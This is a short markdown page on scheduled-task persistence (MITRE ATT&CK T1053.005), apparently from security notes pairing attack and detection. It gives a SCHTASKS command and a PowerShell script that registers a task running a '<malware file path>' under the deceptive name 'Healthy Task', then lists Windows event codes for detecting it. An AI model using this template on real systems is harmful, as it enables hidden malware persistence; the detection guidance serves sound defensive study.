 # [Job Scheduling](https://attack.mitre.org/techniques/T1053/005/)

## Exploit Syntax

### Method 1 | `sharpps` 

```powershell 
sharpps SCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00
```
### Method 2 | `pslo`

1. Create a txt file named `schdTask.ps1`

2. Paste in the powershell below and make edits as necessary.

```powershell
$outpath = "<malware file path>"
$action = New-ScheduledTaskAction -Execute $outpath
$days = 'Monday', 'Wednesday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 11am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Healthy Task" -Description "This task verifies that all other scheduled tasks are legitimate processes."
```
3. Run 'pslo \<schdTask.ps1 file path>' 

---

## Detection Method

* Investigate file creations in the default windows task folder - `C:\Windows\System32\Tasks` folder.
    * Event.code: 1 
    * Event.action: process create 
    * Event.code: 4698 or 4699
    * Event.code: 11 file create
        * Files created within the above folder
    * process.executable: schtasks.exe

*  filter for `C:\Windows\System32\Tasks` and `Event.code: 11 file create`
   *  Will show any new schedule tasks added to the defualt scheduled task folder in windows
---

## Resources